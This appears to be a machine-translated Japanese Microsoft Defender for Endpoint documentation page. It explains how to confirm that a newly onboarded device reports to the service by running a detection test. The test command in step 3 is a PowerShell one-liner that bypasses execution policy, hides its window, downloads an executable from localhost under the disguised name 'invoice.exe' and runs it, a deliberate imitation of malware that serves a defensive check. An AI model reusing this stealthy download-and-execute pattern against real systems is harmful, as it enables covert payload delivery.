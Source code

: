 ```yaml
---
title: デバイスで検出テストを実行して、デバイスがMicrosoft Defender for Endpointに適切にオンボードされていることを確認します
description: Microsoft Defender for Endpoint サービスに最近オンボードされたデバイスで検出テスト スクリプトを実行して、適切に追加されていることを確認します。
search.appverid: met150
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
ms.author: macapara
author: mjcaparas
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- m365-security-compliance
- m365-initiative-defender-endpoint
ms.topic: article
ms.technology: mde
ms.openlocfilehash: 1d8459633d00d759fda1584e0084cd8ed4e12633
ms.sourcegitcommit: b0c3ffd7ddee9b30fab85047a71a31483b5c649b
ms.translationtype: MT
ms.contentlocale: ja-JP
ms.lasthandoff: 03/25/2022
ms.locfileid: "64477261"
---
```

# <a name="run-a-detection-test-on-a-newly-onboarded-microsoft-defender-for-endpoint-device"></a>新しくオンボードされたMicrosoft Defender for Endpoint デバイスで検出テストを実行する

[!INCLUDE [Microsoft 365 Defender rebranding](../../includes/microsoft-defender.md)]


**適用対象:**
- Windows 11
- サポートされているWindows 10 バージョン
- Windows Server 2012 R2
- Windows Server 2016
- Windows Server バージョン 1803
- Windows Server 2019
- Windows Server 2022
- [Microsoft Defender for Endpoint Plan 2](https://go.microsoft.com/fwlink/?linkid=2154037)
- [Microsoft 365 Defender](https://go.microsoft.com/fwlink/?linkid=2118804)

> Microsoft Defender ATP を試してみたいですか? [無料試用版にサインアップしてください。](https://signup.microsoft.com/create-account/signup?products=7f379fee-c4f9-4278-b0a1-e4c8c2fcdf7e&ru=https://aka.ms/MDEp2OpenTrial?ocid=docs-wdatp-exposedapis-abovefoldlink)

管理のためにデバイスをMicrosoft Defender for Endpoint サービスに追加すると、これはオンボード デバイスとも呼ばれます。 オンボードを使用すると、デバイスは正常性状態に関するシグナルをサービスに報告できます。

デバイスがサービスに正常に追加されたことを確認または確認することは、デプロイ プロセス全体の重要なステップです。 これは、予想されるすべてのデバイスが管理されていることを保証します。 

## <a name="verify-microsoft-defender-for-endpoint-onboarding-of-a-device-using-a-powershell-detection-test"></a>PowerShell 検出テストMicrosoft Defender for Endpoint使用してデバイスのオンボードを確認する

新しくオンボードされたデバイスで次の PowerShell スクリプトを実行して、Defender for Endpoint サービスに正しく報告されていることを確認します。

1. 'C:\test-MDATP-test' というフォルダーを作成します。
2. デバイスで管理者特権のコマンド ライン プロンプトを開き、スクリプトを実行します。

   1. **[スタート]** をクリックし、「**cmd**」と入力します。

   1. **コマンド プロンプト** を右クリックし、[**管理者として実行**] を選択します。

      :::image type="content" source="images/run-as-admin.png" alt-text="管理者として実行を指すスタート メニュー" lightbox="images/run-as-admin.png":::
    
3. プロンプトで、次のコマンドをコピーして実行します。

   ```powershell
   powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
   ```

コマンド プロンプト ウィンドウは自動的に閉じます。 成功した場合、オンボードされたデバイスの新しいアラートがポータルに約 10 分で表示されます。

## <a name="related-topics"></a>関連項目

- [Windows デバイスのオンボード](configure-endpoints.md)
- [オンボード サーバー](configure-server-endpoints.md)
- [Microsoft Defender for Endpoint の問題のトラブルシューティング](/microsoft-365/security/defender-endpoint/troubleshoot-onboarding)
